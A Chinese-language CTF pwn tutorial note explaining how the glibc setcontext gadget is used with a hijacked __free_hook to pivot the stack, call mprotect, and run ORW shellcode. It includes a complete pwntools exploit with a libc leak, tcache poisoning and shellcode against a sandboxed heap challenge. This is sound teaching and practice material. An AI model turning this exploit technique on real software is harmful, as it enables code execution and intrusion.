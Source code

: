 # setcontext

## 1.setcontext gadget

因为要控制程序执行流，而劫持__free_hook为一个函数只能传入特定的rdi参数，所以需要gadget去控制寄存器和栈指针，实现多级操作或者是劫持

或者是讲__free_hook劫持成pop链这种，传入寄存器特定的值，实现调用链条



setcontext 函数是 libc 中一个独特的函数，它的功能是传入一个 SigreturnFrame 结构指针，然后根据 SigreturnFrame 的内容设置各种寄存器。
因此从 setcontext+53（不同 libc 偏移可能不同）的位置开始有如下 gadget，即根据 rdi 也就是第一个参数指向的 SigreturnFrame 结构设置寄存器

```shell
0x7f4b45a35a75 <setcontext+53> mov rsp, qword ptr [rdi + 0xa0]
0x7f4b45a35a7c <setcontext+60> mov rbx, qword ptr [rdi + 0x80]
0x7f4b45a35a83 <setcontext+67> mov rbp, qword ptr [rdi + 0x78]
0x7f4b45a35a87 <setcontext+71> mov r12, qword ptr [rdi + 0x48]
0x7f4b45a35a8b <setcontext+75> mov r13, qword ptr [rdi + 0x50]
0x7f4b45a35a8f <setcontext+79> mov r14, qword ptr [rdi + 0x58]
0x7f4b45a35a93 <setcontext+83> mov r15, qword ptr [rdi + 0x60]
0x7f4b45a35a97 <setcontext+87> mov rcx, qword ptr [rdi + 0xa8]
0x7f4b45a35a9e <setcontext+94> push rcx
0x7f4b45a35a9f <setcontext+95> mov rsi, qword ptr [rdi + 0x70]
0x7f4b45a35aa3 <setcontext+99> mov rdx, qword ptr [rdi + 0x88]
0x7f4b45a35aaa <setcontext+106> mov rcx, qword ptr [rdi + 0x98]
0x7f4b45a35ab1 <setcontext+113> mov r8, qword ptr [rdi + 0x28]
0x7f4b45a35ab5 <setcontext+117> mov r9, qword ptr [rdi + 0x30]
0x7f4b45a35ab9 <setcontext+121> mov rdi, qword ptr [rdi + 0x68]
0x7f4b45a35abd <setcontext+125> xor eax, eax
0x7f4b45a35abf <setcontext+127> ret
```



## 2.setcontext + shellcode

开启了沙箱保护的堆题，不能执行 execve，所以需要利用 orw 来 getflag，连续的劫持程序流

libc2.27 的简单示例：

在泄露 libc 基地址后在在 __free_hook 处申请堆块并写入如下数据

![image-20250325002234360](./assets/6.setcontext/image-20250325002234360.png)

之后释放一个 SigreturnFrame，寄存器设置如下图所示。程序通过 setcontext gadget 设置寄存器后将完成栈迁移，此时会调用 mprotect 函数将 free_hook 所在内存页添加可执行属性并且会将栈迁移至 &free_hook+0x8 的位置。执行完 mprotect 函数后程序将跳转至 shellcode1 执行。shellcode1 会向 __free_hook 所在内存页起始位置读入能 orw 的 shellcode2 并跳转至 shellcode 执行获取 flag

![image-20250325002334773](./assets/6.setcontext/image-20250325002334773.png)

跟着exp调试一遍执行流大概就清楚了

```c
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './pwn'
elf = ELF(elf_path)
libc = ELF('./libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(0, 0x500)
add_chunk(1, 0x18)
add_chunk(2,0x18)
delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x3afca0)
li("libc.address", libc.address)

add_chunk(0, 0x400)
delete_chunk(0)
edit_chunk(0, p64(libc.sym['__free_hook']))
add_chunk(1, 0x400)
add_chunk(0, 0x400)

shellcode1 = '''
                xor rdi,rdi
                mov rsi,%d
                mov edx,0x1000
        
                mov eax,0
                syscall
        
                jmp rsi
            ''' % (libc.sym['__free_hook'] & 0xFFFFFFFFFFFFF000)
edit_chunk(0, p64(libc.sym['setcontext'] + 53) + p64(libc.sym['__free_hook'] + 0x10) + asm(shellcode1))

frame = SigreturnFrame()
frame.rsp = libc.sym['__free_hook'] + 8
frame.rip = libc.sym['mprotect']
frame.rdi = libc.sym['__free_hook'] & 0xFFFFFFFFFFFFF000
frame.rsi = 0x2000
frame.rdx = 7

# edit_chunk(1, str(frame))
# edit_chunk(1, frame.__bytes__())
edit_chunk(1, bytes(frame))
#gdb.attach(p, 'b __libc_free')
#pause()
delete_chunk(1)
#pause()
shellcode2 = '''
    mov rax, 0x67616c662f2e ;// ./flag
    push rax
    
    mov rdi, rsp ;// /flag
    mov rsi, 0 ;// O_RDONLY
    xor rdx, rdx ;
    mov rax, 2 ;// SYS_open
    syscall
    
    mov rdi, rax ;// fd 
    mov rsi,rsp  ;
    mov rdx, 1024 ;// nbytes
    mov rax,0 ;// SYS_read
    syscall
    
    mov rdi, 1 ;// fd 
    mov rsi, rsp ;// buf
    mov rdx, rax ;// count 
    mov rax, 1 ;// SYS_write
    syscall
    
    mov rdi, 123 ;// error_code
    mov rax, 60
    syscall
'''
sd(asm(shellcode2))
it()
```

注意：这里的 sigframe 发送时使用 `bytes(frame)` (官方手册的方法) 或者 `frame.__bytes__()`, 不要使用 `str(frame)` 方法，会出现错误，不知道为什么原来打 srop 时用 frame 编码时为什么是正确的

![image-20250325002142396](./assets/6.setcontext/image-20250325002142396.png)